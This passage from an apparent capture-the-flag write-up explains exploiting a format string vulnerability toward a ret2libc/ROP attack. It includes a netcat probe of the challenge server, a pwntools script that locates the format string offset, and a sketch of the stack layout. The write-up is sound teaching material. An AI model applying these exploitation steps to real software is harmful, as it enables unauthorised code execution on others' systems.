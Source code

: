 So, the only solution which came to my mind was to replace the return address of printf by the system ([ret2libc attack](http://wikisecu.fr/doku.php?id=appsysteme:ret2libc)). If we look at the code
of the function system, we can see that it reads its argument from the registry RDI. So, before calling it, we will need to 
set RDI with the address of the command line we want to execute. So, we have a find a ROP-gadget to pop a value to rdi.

And before all that, we will have to determine what is the real address of system and where should we write this address on the 
stack. ASLR is enabled, so the address is not fixed.

And before before all that, we need to be able to run things correctly with the format string exploit.

### Making format string to work with pwntools

As explained before, printf will read the stack for extra argument. If we send the string "%p%p", it will read the first two
values from the stack. You can also print the second value from the stack by calling "%2$p". If we know where is the string 
we control, we will be able to also set the address that we want to update.

So you can do it by hand (or by writing some code). Just put a recognizable pattern and iter.
You should find that the beginning of our string is at position 6:

```bash
$ nc exploitme.chall.quel-hacker-es-tu.fr 55555
ABCDEFGH%6$p
ABCDEFGH0x4847464544434241
```

Or you can be lazy and use pwntools with the package FmtStr :

```python
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload
from pwn import *
context.clear(arch = 'amd64')
def send_payload(payload):
        s.sendline(payload)
        r = s.recvline()
        s.recvline()
        return r

s = process('./exploitme')
print(FmtStr(execute_fmt=send_payload).offset)
...
[*] Found format string offset: 6
6
```

Quite efficient, isn't it?

Once done, we need to find useful addresses. If we look at the code, the call stack should be:

```
Top of stack
... stuff ...
return address to entry function
...
return address of __libc_start_main
...
return address of main function
...
return address of printf
...
```
